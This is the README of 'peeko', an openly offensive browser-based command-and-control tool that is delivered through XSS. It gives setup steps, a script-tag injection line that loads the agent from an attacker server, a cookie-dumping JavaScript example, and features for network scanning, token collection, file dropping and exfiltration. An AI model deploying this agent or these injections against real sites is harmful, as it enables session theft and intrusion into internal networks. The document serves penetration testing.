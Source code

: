 ## peeko

**Version:** v1.0

`peeko` is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeko establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, exfiltrate data, or even execute arbitrary JavaScript — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and victims  
- Victim browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Custom JS execution (manual or automatic)  
  - File delivery (auto/manual)  
  - Browser info and token collection (cookies, storage, etc.)  
  - Log viewer with copy/save as `.txt` or `.json`  
- HTTPS support with self-signed certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeko.git
    cd peeko
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. (Optional) Make scripts executable:

    ```bash
    chmod +x gen-cert.sh start.sh
    ```

4. Generate self-signed TLS certificate:

    ```bash
    make cert
    ```

5. Replace the `SERVER-IP` placeholder:

    Open and edit the following files:

    - `static/agent.js`
    - `static/control.html`

    Replace `SERVER-IP` with the IP/domain of your server:

    ```js
    wss://SERVER-IP:8443/ws → wss://192.168.30.136:8443/ws
    ```

6. Start the server:

    ```bash
    make run
    ```

7. Open the control panel in your browser:

    ```
    https://192.168.30.136:8443/static/control.html
    ```

8. Inject the agent (example XSS):

    ```html
    <script src="https://192.168.30.136:8443/static/agent.js"></script>
    ```

---

## Control Panel Features

### Core Functions

- Select and manage connected victims  
- Fetch any internal/external HTTPS URL via the victim  
- Scan LAN ranges: `192.168.1.0/24`, `10.0.0.10-20`, etc.  
- Scan specific ports or ranges (e.g., `80`, `443,8000-8080`)  

### File Delivery

- Send files to the victim (Base64 via WebSocket)  
- Victim browser automatically downloads them  
- Supports auto-upload on connect  

### Info Gathering

- Collect User Agent, platform, referrer, cookies, local/sessionStorage  
- View results in JSON  
- Triggered manually or auto-collect on connect  

### Custom JS Execution

- Run arbitrary JavaScript on the victim browser  
- Use `exec:...` format to send  
- Supports **auto-run** on connect  
- Example: `exec:alert(document.cookie);`  

### Logging

- Everything is logged (requests, responses, info dumps)  
- Copy or export logs as `.txt` or `.json`  
- Minimalist UI designed like a terminal log  

---

## CORS & Mixed Content Explained

Modern browser policies affect what peeko can access.

### CORS Responses

| Header | Can read content? | Notes |
|--------|-------------------|-------|
| `Access-Control-Allow-Origin: *` | ✅ | Full access to response |
| No header | ⚠️ | Response is opaque |
| Restricted origin | ❌ | Blocked or unreadable |

### Mixed Content

Victim connects via HTTPS. If a scanned target only uses HTTP:

- Browser will block mixed content requests  
- peeko cannot read from `http://` endpoints  
- Always prefer targets using HTTPS when scanning

### In Practice

During a penetration test, if you find an internal service that responds with `Access-Control-Allow-Origin: *` and is served over HTTPS, then peeko becomes a stealth proxy capable of exfiltrating internal data directly from the victim's browser without dropping any files or opening outbound connections.


---

## Project Structure

```
peeko/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Attacker injects XSS (via stored or reflected vuln)  
2. Victim’s browser connects via WebSocket to peeko server  
3. Control panel lets attacker:  
   - Scan network  
   - Fetch URLs  
   - Dump cookies, storage  
   - Run arbitrary JS  
   - Exfiltrate responses
   - Drop files

---

## Use Cases

- Internal network mapping via XSS  
- SSRF  
- Browser-based pivoting  
- Silent file delivery / JS dropper  

---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeko outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

Written by **b3rito** at mes3hacklab & **GioPpeTto**
